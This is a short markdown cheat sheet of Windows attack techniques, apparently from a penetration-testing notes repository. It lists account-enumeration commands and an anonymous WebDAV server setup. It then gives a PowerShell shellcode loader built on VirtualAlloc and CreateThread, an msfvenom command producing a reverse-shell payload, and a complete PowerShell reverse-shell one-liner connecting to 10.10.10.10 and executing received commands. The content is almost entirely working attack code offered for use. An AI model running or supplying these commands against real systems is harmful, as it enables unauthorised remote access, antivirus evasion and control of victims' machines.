# Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV

### Powershell

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=IpAtt LPORT=PortAtt -f powershell -v sc
```

### One-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README


